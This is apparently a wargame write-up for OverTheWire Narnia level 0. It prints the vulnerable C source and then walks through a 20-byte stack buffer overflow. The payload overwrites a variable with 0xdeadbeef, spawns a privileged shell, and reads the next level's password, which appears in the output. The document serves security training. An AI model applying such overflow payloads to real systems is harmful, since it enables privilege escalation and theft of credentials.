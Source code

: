 ```bash
┏━•  ~
┗  ssh narnia0@narnia.labs.overthewire.org -p 2226

This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

narnia0@narnia.labs.overthewire.org's password:
Linux narnia 4.18.12 x86_64 GNU/Linux
```
... SNIP BANNER ...

```bash
narnia0@narnia:~$ cat /narnia/narnia0.c
```
```c
/*                                                                                                                               /*
  This program is free software; you can redistribute it and/or modify
  it under the terms of the GNU General Public License as published by
  the Free Software Foundation; either version 2 of the License, or
  (at your option) any later version.

  This program is distributed in the hope that it will be useful,
  but WITHOUT ANY WARRANTY; without even the implied warranty of
  MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
  GNU General Public License for more details.

  You should have received a copy of the GNU General Public License
  along with this program; if not, write to the Free Software
  Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }
    
    return 0;
}
```

We can quickly see our buffer overflow in the code. The input character buffer (`char buf[20];`) has a length of 20 bytes, while the scanf() allows for 24 bytes (`scanf("%24s",&buf);`) of input leaving us 4 bytes to overflow. 

Looking at the code we can see that val has been assigned the hexadecimal value 0x41414141 `long val=0x41414141;`, which, when decoded to a string is `AAAA`. It looks like the program expects the user to enter 20 characters then 0xDEADBEEF.

Lets try running the program with 20 A's to see the output.
```bash
narnia0@narnia:/narnia$ ./narnia0                                                                                     Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAA
buf: AAAAAAAAAAAAAAAAAAAA
val: 0x41414100
WAY OFF!!!!
```

Now lets see what happens if we can change `val` to another value by adding 20 A's and 4 B's.
```bash
narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAABBBB
buf: AAAAAAAAAAAAAAAAAAAABBBB
val: 0x42424242
WAY OFF!!!!
```
It works! We were able to modify `val`. Now lets try giving the program what it wants. 20 chars, and then 0xdeadbeef. So lets test with the correct payload (i.e. hexstring in reverse 0xefbeadde)

```bash
narnia0@narnia:~$ python -c 'print "A"*20 + "\xef\xbe\xad\xde"' | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
```

# NOTE: You may be wondering why deadbeef is written backwards ("\xef\xbe\xad\xde"). In x86 and x86-64 (and a variety of other hardware), multi-byte values such as addresses are stored in little-endian order, ie. "backwards" from the viewpoint of a person reading it.

Now that we have privilege escilation lets get the password for narnia1 from /etc/narnia_pass/narnia1.

```bash
narnia0@narnia:~$ (python -c 'print "A"*20 + "\xef\xbe\xad\xde"'; echo 'cat /etc/narnia_pass/narnia1') | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
efeidiedae       # password for narnia1
```

Alternatively, print the string, and copy & paste it to get the the narnia1 shell and grab the password from /etc/ manually.

```bash
narnia0@narnia:/narnia$ (echo -e 'AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde\xaf';cat)                           AAAAAAAAAAAAAAAAAAAAﾭޯ

narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: (echo -e 'AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde\xaf';cat)

buf: (echo
val: 0x41414141
WAY OFF!!!!
narnia0@narnia:/narnia$                                                                                               narnia0@narnia:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAAﾭޯ
buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
$ whoami
narnia1
$ cat /etc/narnia_pass/narnia1
efeidiedae
$
```